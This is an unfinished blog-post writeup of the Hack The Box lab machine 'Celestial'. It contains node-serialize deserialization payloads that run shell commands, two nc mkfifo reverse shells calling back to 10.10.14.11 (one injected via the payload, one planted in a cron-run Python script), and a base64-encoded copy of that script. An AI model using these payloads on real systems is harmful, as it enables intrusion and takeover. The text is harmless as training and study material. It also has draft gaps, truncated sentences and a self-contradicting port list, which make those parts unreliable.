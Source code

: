 ```yaml
---
layout: post
title:  "Hack The Box - Celestial - Writeup"
date:   2000-01-01 07:00:00 +0200
tags: ["Hack The Box","OSWE"]
---
```

{% assign imgDir="HTB-Celestial-Writeup" %}

# Introduction
The hack the box machine "Celestial" is a medium machine which is included in [TJnull's OSWE Preparation List](https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=665299979). Exploiting this machine requires knowledge of 

<img style="Width:550px;" src="/assets/{{ imgDir }}/card.png" alt="BlockyCard">

By enumerating the target, it is possible to discover 

# Exploitation
We start by performing an nmap scan by executing `nmap -sS -sC -sV -p- 10.10.10.85`. The `-sS` `-sC` and `-sV` flags instructs nmap to perform a SYN scan to identify open ports followed by a script and version scan on the ports which were identified as open. The `-p-` flag instructs nmap to scan all the ports on the target. From the scan results, shown below, we can see that port `21`, `22`, `80` and `25565` are open. As can be seen below, this only reveals that port 3000 is open and is running [NodeJS]().

![nmap](/assets/{{ imgDir }}/nmap.png)

![burpResp1](/assets/{{ imgDir }}/burpResp1.png)
![burpResp2](/assets/{{ imgDir }}/burpResp2.png)

{% highlight none linenos %}
kali@kali:/tmp/x$ echo "eyJ[...]Q==" | base64 -d
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
{% endhighlight %}

We see that username and the num field are used. At this point, we can strongly suspect that the json blob is being parsed and that the parsed parameter values are being put back into the page. Some NodeJs serializers use JSON => We can try to create our own serializer payload. If this is the case, it should matter what variable name is used since the whole object is deserialized. 

{"evil":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 10 10.10.14.11'); }()"}

![wireshark](/assets/{{ imgDir }}/wireshark.png)

{"evil":"_$$ND_FUNC$$_function (){require('child_process').exec('which nc && ping -c 10 10.10.14.11'); }()"}

sudo nc -lvnp 443

{"evil":"_$$ND_FUNC$$_function (){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f'); }()"}

![sunShell](/assets/{{ imgDir }}/sunShell.png)

Talk about SSTI vs deserialization?

# Privilege Escalation
The next step is to perfrom a privilege escalation from the `sun` user to the `root` user. 

Files in home of the `sun` user:
![sunHome](/assets/{{ imgDir }}/sunHome.png)

output.txt and node_modules look interesting since these are owned by root. By executing `cat output.txt` we get the content "Script is running..."
in addition, it was edited quite recently.

We find the files `user.txt` and `script.py` in the `/home/sun/Documents` folder. The script file contains a only contains the line `print "Script is running..."`. This is the content of the output file, we can strongly suspect that this script is executed on a regular basis. We also have the right to overwrite the script.py file since it belongs to us

put the following in /home/sun/script.py
{% highlight python linenos %}
import os
os.system("rm /tmp/q;mkfifo /tmp/q;cat /tmp/q|sh -i 2>&1|nc 10.10.14.11 443 >/tmp/q")
{% endhighlight %}

cat script.py | base64 -w0

aW1wb3J0IG9zCm9zLnN5c3RlbSgicm0gL3RtcC9xO21rZmlmbyAvdG1wL3E7Y2F0IC90bXAvcXxzaCAtaSAyPiYxfG5jIDEwLjEwLjE0LjExIDQ0MyA+L3RtcC9xIikK
echo '[base64]' | base64 -d > /home/sun/Documents/script.py

sudo nc -lvnp 443

wait 5 minutes

![rootShell](/assets/{{ imgDir }}/rootShell.png)

# Extra

We can find the cronjob if we list cronjobs with the "crontab -l" command as shown below. Note that the `grep -v '#'` part of the command is only used to remove any comments in the personal cronjob file which the `crontab -l` command shows.
![extra1](/assets/{{ imgDir }}/extra1.png)

Mention pspy brifely
